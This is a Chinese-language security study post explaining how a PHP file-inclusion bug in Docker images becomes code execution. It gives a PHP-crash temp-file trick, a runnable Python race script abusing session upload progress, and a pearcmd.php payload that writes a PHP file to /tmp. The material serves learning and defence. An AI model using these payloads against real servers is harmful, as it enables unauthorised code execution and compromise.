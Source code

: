 # 前言

很早之前就见到的pearcmd.php的利用，但是一直没来学习，最近突然看到Thinkphp爆出来新的洞，利用方式也是通过docker裸文件包含，所以重新来学习一下关于docker裸文件包含的知识

# 裸文件包含Getshell

P牛在文章里面写了6种方法，但是只有用pearcmd.php这个是只要启动docker能包含文件就可以实现RCE的

首先在一个标准的docker启动后，我们没有办法去进行一个远程包含，其次再没有更改权限的情况下，是没有办法通过日志包含进行RCE的（权限不够）

另外在学习无字母数字RCE的时候，我们实现了上传一个通过临时文件RCE的，因为在PHP程序执行完成之前，上传的文件会在/tmp生成一个临时文件，文件名是php加上六个随机字符，在命令执行的时候我们可以通过通配符来匹配，但是这里是文件包含，我们需要用到完整的文件名，在P牛的文章中提到如果我们可以让PHP进程在请求结束前出现异常退出执行，那么临时文件就可以免于被删除了

国内的安全研究者[@王一航](https://www.jianshu.com/p/dfd049924258) 曾发现过一个会导致PHP crash的方法：

```
include 'php://filter/string.strip_tags/resource=/etc/passwd';
```

正好用在文件包含的逻辑中。

先写一个上传借口

```
<form action="/" method="post" enctype="multipart/form-data">
    <div><input type="file" name="image"></div>
    <div><input type="submit" value="上传"></div>
</form>
```

![image-20221212115702064](images/1.png)

这个Bug在[7.1.20](https://github.com/php/php-src/commit/791f07e4f06a943bd7892bdc539a7313fb3d6d1e)以后被修复，也没有留下更新日志，我们可以使用7.0.33版本的PHP进行尝试。向文件包含的目标发送这个导致crash的路径，可见服务器已经挂了，返回空白：

![image-20221212115732788](images/2.png)

但是已经在/tmp留下了shell，如果多次写入的话，我们可以对后面六位进行爆破来getshell

当然导致php进程crash的也不止这一种办法，但是多多少少都会有一些条件

除此之外，P牛还介绍了通过配置开启的打Getshell

虽然在docker的默认环境中session.upload_progress.enable是开启的，但是呢`session.upload_progress.cleanup`，默认开启。在这个选项开启时，PHP会在上传请求被读取完成后自动清理掉这个Session，如果我们尝试把这个选项关闭，就可以读取到Session文件的内容了

![image-20221212120629635](images/3.png)

这种利用方式需要满足下面几个条件：

- 目标环境开启了`session.upload_progress.enable`选项
- 发送一个文件上传请求，其中包含一个文件表单和一个名字是`PHP_SESSION_UPLOAD_PROGRESS`的字段
- 请求的Cookie中包含Session ID

这里当满足条件的时候就可以用P牛的脚本了

```
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'


def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )


def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()


if __name__ == '__main__':
    futures = []
    event = threading.Event()
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))

    wait(futures)

```

用条件竞争向目标的tmp目录下写入success文件

## pearcmd.php的妙用

只要启动了docker默认条件就能直接使用这个方法

pecl是PHP中用于管理扩展而使用的命令行工具，而pear是pecl依赖的类库。在7.3及以前，pecl/pear是默认安装的；在7.4及以后，需要我们在编译PHP的时候指定`--with-pear`才会安装。

不过，在Docker任意版本镜像中，pcel/pear都会被默认安装，安装的路径在`/usr/local/lib/php`。

原本pear/pcel是一个命令行工具，并不在Web目录下，即使存在一些安全隐患也无需担心。但我们遇到的场景比较特殊，是一个文件包含的场景，那么我们就可以包含到pear中的文件，进而利用其中的特性来搞事。

最后的payload（burp发包解决URL编码问题）

```
?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php
```

![image-20221212125250507](images/4.png)

可以看到写入了/tmp/hello.php

![image-20221212125432820](images/5.png)

只要包含这个文件就能执行里面的phpinfo了





参考链接

https://tttang.com/archive/1312/